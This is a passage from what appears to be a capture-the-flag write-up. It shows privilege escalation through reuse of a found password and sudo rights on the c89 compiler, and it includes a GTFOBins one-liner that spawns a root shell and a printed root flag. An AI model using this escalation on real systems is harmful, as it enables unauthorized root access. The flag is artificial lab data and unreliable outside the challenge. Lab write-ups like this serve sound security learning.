 Weird, maybe `metadatosmalos` is the password for the metadata user, let's use sudo to check:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604171223.png)

Yes, it worked, as seen we can run sudo with `/usr/bin/c89`, let's check this out on GTFOBINS:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604171418.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604171501.png)

So, we can do:


```
sudo /usr/bin/c89 -wrapper /bin/sh,-s .
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604171534.png)

There we go, we got root access:

```
# cat /root/root.txt
d6c4a33bec66ea2948f09a0db32335de
```

